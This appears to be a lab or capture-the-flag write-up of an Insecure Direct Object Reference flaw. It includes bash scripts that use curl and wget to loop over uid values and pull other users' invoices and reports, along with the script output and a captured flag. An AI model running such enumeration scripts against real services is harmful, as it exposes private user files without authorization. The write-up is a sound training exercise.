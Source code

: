 # 🔓 Insecure Direct Object Reference (IDOR) Vulnerability Write-Up
## 🧩 Vulnerability Summary
An IDOR vulnerability was discovered on a web application hosted at http://83.136.252.13:40028. The flaw allows unauthorized users to access and enumerate documents belonging to other users by manipulating a uid parameter sent via POST requests.

![image](https://github.com/user-attachments/assets/a8532a20-279a-4743-9614-ae896dd84122)

### 🕵️‍♂️ Reconnaissance
Upon visiting the homepage, a JavaScript function was found:

```bash
 <script>
    function getDocuments(uid) {
      $.redirect("/documents.php", {
        uid: uid,
      }, "POST", "_self");
    }
  </script>
```
This indicated that the /documents.php endpoint accepted a POST request with a uid parameter to retrieve user-specific documents.

### 📥 Endpoint Behavior
When manually visiting /documents.php via browser (or by crafting a POST request), document links were returned within anchor (<a>) tags, such as:

```bash
<li>
      <input type="checkbox" id="trigger-views" checked="checked">
      <label for="trigger-views">Documents</label>
      <ul class="pure-tree">
        <li class='pure-tree_link'><a href='/documents/Invoice_1_09_2021.pdf' target='_blank'>Invoice</a></li>
        <li class='pure-tree_link'><a href='/documents/Report_1_10_2021.pdf' target='_blank'>Report</a></li>
    </ul>
</li>
```

The naming format followed:
[DocumentType]_[UID]_[Month]_[Year].pdf

![image](https://github.com/user-attachments/assets/1e59c7b9-11d2-44fd-ade8-451790df7e13)
This suggested that the application returned files belonging to the UID provided, without validating the requester's authorization.

### 🧪 Exploitation

Let's understand the given bash file in the learning module.

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

A custom Bash script was created to enumerate files by iterating over uid values and parsing the response:

```bash
#!/bin/bash

url="http://94.237.51.163:38179/documents.php"
max_uid=20

# Print header
echo -e "UID | FILE NAME 1 | FILE NAME 2 | FILE NAME 3"

for uid in $(seq 1 $max_uid); do
    echo "[*] Checking UID: $uid" >&2

    # Send POST request and get matching files
    files=$(curl -s -X POST -d "uid=$uid" "$url" | grep -oP "/documents/\K[^']+\.[a-zA-Z0-9]+" | sort -u)

    # Format row: UID | file1 | file2 | file3...
    row="$uid"
    for file in $files; do
        row="$row | $file"
    done

    echo -e "$row"
done
```

Save it as idor_enum_download_all.sh
Make it executable: chmod +x idor_enum_download_all.sh
Run it: ./idor_enum_download_all.sh

### Output

```bash
UID | FILE NAME 1 | FILE NAME 2 | FILE NAME 3
[*] Checking UID: 1
1 | Invoice_1_09_2021.pdf | Report_1_10_2021.pdf
[*] Checking UID: 2
2 | Invoice_2_08_2020.pdf | Report_2_12_2020.pdf
[*] Checking UID: 3
3 | Invoice_3_06_2020.pdf | Report_3_01_2020.pdf
[*] Checking UID: 4
4 | Invoice_4_07_2021.pdf | Report_4_11_2020.pdf
[*] Checking UID: 5
5 | Invoice_5_06_2020.pdf | Report_5_11_2021.pdf
[*] Checking UID: 6
6 | Invoice_6_09_2019.pdf | Report_6_09_2020.pdf
[*] Checking UID: 7
7 | Invoice_7_11_2021.pdf | Report_7_01_2020.pdf
[*] Checking UID: 8
8 | Invoice_8_06_2020.pdf | Report_8_12_2020.pdf
[*] Checking UID: 9
9 | Invoice_9_04_2019.pdf | Report_9_05_2020.pdf
[*] Checking UID: 10
10 | Invoice_10_03_2020.pdf | Report_10_05_2021.pdf
[*] Checking UID: 11
11 | Invoice_11_03_2021.pdf | Report_11_04_2021.pdf
[*] Checking UID: 12
12 | Invoice_12_02_2020.pdf | Report_12_04_2020.pdf
[*] Checking UID: 13
13 | Invoice_13_06_2020.pdf | Report_13_01_2020.pdf
[*] Checking UID: 14
14 | Invoice_14_01_2021.pdf | Report_14_01_2020.pdf
[*] Checking UID: 15
15 | flag_11dfa168ac8eb2958e38425728623c98.txt | Invoice_15_11_2020.pdf | Report_15_01_2020.pdf
[*] Checking UID: 16
16 | Invoice_16_12_2021.pdf | Report_16_01_2021.pdf
[*] Checking UID: 17
17 | Invoice_17_11_2021.pdf | Report_17_06_2021.pdf
[*] Checking UID: 18
18 | Invoice_18_12_2020.pdf | Report_18_01_2020.pdf
[*] Checking UID: 19
19 | Invoice_19_06_2020.pdf | Report_19_08_2020.pdf
[*] Checking UID: 20
20 | Invoice_20_06_2020.pdf | Report_20_01_2021.pdf
```
![image](https://github.com/user-attachments/assets/e478bdd0-82c4-4634-ba83-897d95c862a5)

### 🏁 Flag Found

Using the script, UID 15 returned an unexpected .txt file, which turned out to be a flag:
cat downloads/flag_11dfa168ac8eb2958e38425728623c98.txt
